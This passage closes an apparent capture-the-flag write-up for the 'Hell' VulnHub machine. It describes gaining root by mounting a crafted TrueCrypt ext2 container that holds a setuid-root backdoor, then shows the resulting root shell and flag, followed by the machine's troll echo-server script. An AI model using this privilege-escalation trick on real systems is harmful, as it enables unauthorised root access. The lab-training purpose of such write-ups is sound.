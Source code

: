 Unfortunately *Truecrypt* isn't in the *openSUSE* repositories and the rebadged version (*Realcrypt*)can't be found on an official repository so I'd rather launch *Kali Linux* in a VM just to create the *Truecrypt* container.  

Steps are easy : create a small container (10M) that can be mounted on Linux with an *ext2* filesystem (that's important because the setuid permissions must be supported, don't use FAT). Inside we put a setuid root backdoor then we unmount the container to copy it later on the *Hell* system.  

Final steps is to mount the evil volume on *Hell* and to launch our backdoor :  

```bash
george@hell:~$ truecrypt /tmp/crypted.tc /media/truecrypt1
Enter password for /tmp/crypted.tc: 
Enter keyfile [none]: 
Protect hidden volume (if any)? (y=Yes/n=No) [No]: 
george@hell:~$ /media/truecrypt1/getroot 
root@hell:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(george)
root@hell:~# cat /root/flag.txt 
Congratulations of beating Hell. 

I hope you enjoyed it and there weren't to many trolls in here for you. 

Hit me up on irc.freenode.net in #vulnhub with your thoughts (Peleus) or follow me on twitter @0x42424242

Flag: a95fc0742092c50579afae5965a9787c54f1c641663def1697f394350d03e5a53420635c54fffc47476980343ab99951018fa6f71f030b9986c8ecbfc3a3d5de
```

Trolololololol
--------------

Let's talk about trolls ! The operating system used on this CTF is a Debian 7.5 32bits. So wtf with the 64bits *echoserver.bak* binary ?  

Here is the content of */root/echoserver.py* :  

```python
#!/usr/bin/python
# Trololol lol lol lol lol
import socket
import thread
import random
import sys

def EchoClientHandler(clientSocket, addr) :
        clientSocket.send("\nWelcome to the Admin Panel\n")
        clientSocket.send("Archiving latest version on webserver (echoserver.bak)...\n")
        clientSocket.send("Starting echo server and monitoring...\n")
        while 1:
                trollpoint = random.randint(1,17)
                client_data  = clientSocket.recv(2048)
                if client_data:
                        if len(client_data) > 1000:
                                clientSocket.send("Segmentation fault")
                                sys.exit(0)
                        else :
                                clientSocket.send(client_data)
                else :
                        clientSocket.close()
                        return

echoServer = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

echoServer.bind(("0.0.0.0", 666))
```